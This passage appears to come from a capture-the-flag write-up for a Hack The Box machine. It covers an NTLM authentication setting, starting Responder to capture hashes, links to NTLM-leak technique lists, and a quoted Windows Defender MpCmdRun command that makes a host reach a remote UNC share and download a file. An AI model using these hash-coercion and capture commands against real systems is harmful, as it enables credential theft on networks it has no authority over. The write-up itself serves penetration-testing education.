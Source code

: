 Some reasearch revealed that

> The Network security: LAN Manager authentication level setting determines which challenge/response authentication protocol is used for network logons. This choice affects the authentication protocol level that clients use, the session security level that the computers negotiate, and the authentication level that servers accept.

```text
Send NTLM response only | Client devices use NTLMv1 authentication, and they use NTLMv2 session security if the server supports it. Domain controllers accept LM, NTLM, and NTLMv2 authentication. | 2
```

A value of '2' meant that NTLM hashes would be sent

according to [https://book.hacktricks.xyz/windows/ntlm](https://book.hacktricks.xyz/windows/ntlm) I could abuse the print spooler service to get the machine to send the hash to my machine, where I could capture it with `responder`

```text
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ sudo responder -I tun0 --lm           
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[!] The challenge must be exactly 16 chars long.
Example: 1122334455667788
```

The instructions on this page are not as well written as a lot of others on this page, but at least responder gave a verbose enough error message to fix the problem

* [https://gbhackers.com/hackers-can-steal-windows-ntlm/](https://gbhackers.com/hackers-can-steal-windows-ntlm/)
* [https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All_NTLM_leak)

The github account was a good list of different ways to leak NTLM hashes I tried each one until I got one that wasn't henry

> Windows Defender MpCmdRun
>
> `"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\Server.domain\file.txt "c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -path \\Server.domain\`

* [https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus)
